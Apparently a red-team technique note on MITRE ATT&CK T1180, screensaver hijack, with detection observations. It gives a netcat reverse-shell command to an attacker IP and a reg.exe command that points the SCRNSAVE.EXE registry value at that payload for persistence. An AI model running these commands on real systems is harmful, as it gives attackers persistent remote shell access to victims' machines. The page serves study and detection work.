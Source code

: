```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file. 

In this test, I will use a netcat reverse shell as my malicious payload:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's update the registry:

![](../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../.gitbook/assets/screensaver-shell%20%281%29.png)

![](../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}



